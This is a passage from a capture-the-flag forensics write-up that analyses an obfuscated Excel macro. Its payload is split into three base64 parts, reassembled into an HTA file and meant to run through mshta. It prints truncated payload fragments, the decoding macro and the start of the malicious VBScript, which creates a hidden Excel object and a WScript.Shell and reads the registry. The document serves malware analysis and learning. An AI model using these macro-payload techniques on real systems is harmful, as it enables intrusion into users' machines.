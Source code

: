The dead cell is slightly visible thanks to an arrow, in the spreadsheet.

So, the actual payload is:

- split in 3 parts scattered around the document
- encoded with an unknown scheme
- executed with the command `mshta`

## Piecing the payload together

Rather than executing the payload, let's decode it.

Excel macros don't run perfectly in LibreOffice: for example, I had to manually
search for the `ActiveSheet.Shapes(2).AlternativeText`, because it's a
description in LibreOffice.

I had already found the 2 other parts
So I extracted & concatenated the obfuscated payload parts beforehand.

```shell
output_file_path = "/root/workspace/ctf/hackthebox/forensics/obfsc4t10n/payload.hta"
p1 = "PGh0bWw+PGhlYWQ+PHNjcmlwdCBsYW5ndWFnZT0idmJzY3JpcHQiPgpEaW0gb2JqRXhjZWwsIF..."
p2 = "lvbk5hbWUgIiYiQXMgU3RyaW4iJiJnIiZDaHIoNDQpJiIgQnlWYWwgbCImInBDb21tYW5kIiYi..."
p3 = "ciJkNocig0NCkmQ2hyKDQ1KSYiNzkiJiBfIApDaHIoNDQpJiIxMTYiJkNocig0NCkmIjk0IiZD..."

Open output_file_path For Output As #1
Write #1, deobfuscate(p1 & p2 & p3)
Close #1

payload = "mshta " & output_file_path
'x = Shell(payload, 1)
```

It results in an "hta" file: MS HTML application, which is actually plain VBScript.

```shell
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
end function
...
```

## Defragmentating the nested payload

The former macro payload encapsulates yet another obfuscated payload!
